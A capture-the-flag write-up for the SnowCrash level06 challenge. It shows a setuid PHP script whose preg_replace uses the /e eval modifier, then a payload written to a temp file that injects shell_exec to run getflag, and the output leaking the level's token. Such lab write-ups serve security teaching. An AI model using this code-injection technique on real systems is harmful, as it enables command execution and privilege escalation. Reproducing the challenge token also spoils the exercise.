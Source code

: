 We start this one with 2 files in the home directory:

- level06
- level06.php

```php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

Moreover, those files have the following rights:

```bash
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
```

The php script get executed by the binary one.

The first preg_replace from the `function x(...)` contain the `execution flag` (the trailing 'e' in the regex).

So my intuition is that we can execute the `getflag` command when this regex get parsed.

```bash
echo '[x {${shell_exec(getflag)}}]' > /tmp/level06-file1
```

```bash
level06@SnowCrash:~$ ./level06 /tmp/level06-file1
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

As simple as this. We inject a shell command through PHP.

The token appears in errors.
